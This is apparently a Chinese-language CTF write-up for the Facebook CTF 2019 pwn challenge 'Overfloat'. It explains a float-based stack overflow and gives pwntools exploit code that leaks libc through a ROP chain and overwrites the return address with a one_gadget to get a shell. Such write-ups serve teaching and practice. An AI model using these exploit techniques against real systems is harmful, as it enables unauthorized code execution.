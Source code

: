 # Facebook CTF - 2019

## Pwn / 100 - Overfloat

## Solution

這題程式會用**fgets**讀取input，再用**atof**轉型成**float**
![image](https://i.imgur.com/OZKBs1k.png)
紅色框起來的部分是我們要overflow的地方
他會把main裡的stack address傳進chart_course
而這邊寫入的位址就是main的stack
雖然前面印出來的LON,LAT的index會重置，但實際上a1這個array的index卻會一直往下跑，所以算好offset就可以成功蓋到ret addr。
輸入done就可以結束程式。(break while loop)

## exploit
因為程式是用**atof()**強制轉型成float num，所以我們可以用unpack('f',p32(num))[0]
讓atof成功寫入我們想要的值。

```python=
from pwn import *
import struct

def defloat(num):
    return str(struct.unpack('f',p32(num))[0])
```

算好offset之後，接著就是基本ROP chain的應用。
但這邊要注意的是，一次寫入只有32bits，而leak的rop gadget都是小於32bits。
但64位元的OS一次pop rip都是64bits，所以要補0。

```python=

junk = defloat(0xdeadbeef)

p.recvuntil('?')
for i in range(0,14):
    p.recvuntil(': ')
    p.sendline(junk)
p.sendline(defloat(pop_rdi_ret))
p.sendline(defloat(0))
p.sendline(defloat(puts_got))
p.sendline(defloat(0))
p.sendline(defloat(puts_plt))
p.sendline(defloat(0))
# return to main to read one gadget
p.sendline(defloat(main))
p.sendline(defloat(0))
```

成功leak puts_libc之後就是算libc_base，ret one_gadget

但這邊onegadget要分兩次寫入

```python=
def one(num):
    return str(struct.unpack('f', num)[0])
    
one_gadget = libc_base + 0x4f2c5

# offset
p.recvuntil('?')
for i in range(0,14):
    p.recvuntil(': ')
    p.sendline(junk)
one1 = p64(one_gadget)[4:8]
one2 = p64(one_gadget)[0:4]
# write ret addr 
p.sendline(one(one2))
p.sendline(one(one1))
p.sendline('done')
p.interactive()
```

**get shell!**
